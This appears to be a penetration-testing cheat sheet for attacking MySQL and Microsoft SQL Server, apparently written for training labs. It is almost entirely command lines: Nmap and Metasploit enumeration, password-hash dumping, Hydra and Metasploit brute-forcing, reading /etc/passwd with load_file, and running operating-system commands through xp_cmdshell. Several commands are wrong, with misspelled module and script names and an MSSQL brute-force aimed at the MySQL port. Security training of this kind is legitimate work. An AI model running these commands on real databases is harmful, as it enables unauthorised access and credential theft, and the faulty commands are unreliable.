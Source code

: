 ```yaml
---
description: 1433 - MS Sql, 3306 - Linux
---
```


# v - MySQL - 1433,3306

`nmap $ip -sV -p3306` - basic enumeration.

`mysql -h $ip -u root` - lets try to login with "root".

### Using Metasploit

{% code overflow="wrap" lineNumbers="true" %}
```bash
# 1
use auxiliary/scanner/mysql/mysql_writable_dirs
show options
set dir_list /usr/share/metasploit-framework/data/wordlists/directory.txt
setg rhosts $ip
show advanced
set verbose false
set username root
set password ""
options
run

# 2
# dumping hashed of users in the db
use auxiliary/scanner/mysql/mysql_hashdump
options
set username root
set password ""
exploit

# 3
# enumerate/directory bruteforcing
# /usr/share/metasploit-framework/data/wordlists/sensitive_files.txt
use auxiliary/scanner/mysql/mysql_file_enum
set FILE_LIST
```
{% endcode %}

## Accessing System FIles from MySql

```sql
# 1
# when you successfully login into victim mysql db
# outputs the /etc/passwd file.
select load_file('/etc/passwd');

```

## Using Nmap to check for Accounts with no passwords

`nmap $ip  --script=mysql-info  -p3306` - all info about the db.

`nmap $ip -sV -p3306 --script=mysql-empty-password` - finds accounts that require no password for authentication.

`nmap $ip -sV -p3306 --script=mysql-info` - outputs info about the db.

`nmap $ip -sV -p3306 --script=mysql-users --script-args="mysqluser='root',mysqlpass=''"` - enumerate users in the db.

`nmap $ip -sV -p3306 --script=mysql-databases --script-args="mysqluser='root',mysqlpass=''"` - enumerate databases.

`nmap $ip -sV -p3306 --script=mysql-variables --script-args="mysqluser='root',mysqlpass=''"` - enumerate variables.&#x20;

`nmap $ip -sV -p3306 --script=mysql-audit --script-args="mysql-audit.user='root',mysql-audit.password='',mysql-audit.filename='/usr/share/nmap/nselib/data/mysql-cis.audit'"` - auditing the db.

`nmap $ip -sV -p3306 --script=mysql-dump-hashes --script-args="username='root',password=''"` - dumps hashes (hashdump).

## Dictionary Attacks (brutefrocing creds)

### \[msfconsole] Metasploit

```bash
# bruteforcing with metasploit
use auxilary/scanner/mysql/mysql_login
set rhosts $ip
set pass_file usr/share/metasploit-framework/data/wordlists/unix_passwords.txt
set verbose false
set stop_on_success true
set username root
run
```

### \[hydra] utility

`hydra -l root -P /usr/share/metasploit-framework/data/wordlists/unix_passwords.txt $ip mysql` - run the attack.



## Microsoft  SQL  nmap scripts

`nmap $ip -p1433 --script ms-sql-info` - enumerate the ms-sql server version.

`nmap $ip -p1433 --script ms-sql-ntlm-info --script-args  mssql.instance-port=1433`  - enumerate ms-sql ntlm info.

`nmap 10.5.17.254 -p3306 --script ms-sql-brute --script-args userdb=/root/Desktop/wordlist/common_users.txt,passdb=/root/Desktop/wordlist/100-common-passwords.txt` - brute forcing.

`nmap $ip -p1433 --script=ms-sql-empty-password` - finds accounts that require no password for authentication.

`nmap $ip -p1433 --script=ms-sql-query --script-args mssql.username=admin,mssql.password=dking,ms-sql-query.query="SELECT * FROM master..syslogins" -oN output.txt` - performs a query

`nmap $ip -p1433 --script=ms-sql-dump-hashes --script-args mssql.username=admin,mssql.password=anabell` - hashdump

`nmap $ip -p1433 --script=ms-sql-xp-cmdshell --script-args mssql.username=admin,mssql.password=anabell,ms-sql-xp-cmdshell.cmd="ipconfig"` - run a query that executes the "ipconfig" cmd.

`nmap $ip -p1433 --script=ms-sql--xp-cmdshell --script-args mssql.username=admin,mssql.password=anabell,ms-sql-xp-cmdshell.cmd="type C:\flag.txt"` - run a query that reads the content of the "flag.txt" file.

## Microsoft  SQL enumeration with Metasploit

```bash
# 1
# enumerare list of users creds.
use auxiliary/sscanner/mssql/mssql_login
setg rhosts $ip
set user_file /wordlist_path
set pass_file /common-passwords.txt
set verbose false
run

# 2
# execute commands.
use auxiliary/admin/mssql/mssql_exec
set cmd whoami
options
run 

# 3
# enumerate domain accounts.
use auxiliary/admin/mssql/mssql_enum_domain_accounts
exploit

# 4
# enumeration all infos
use auxiliary/admin/mssql/mssql_enum 

# 5
# enumerate login user accounts.
use auxiliary/admin/mssql/mssql_enum_sql_logins
```




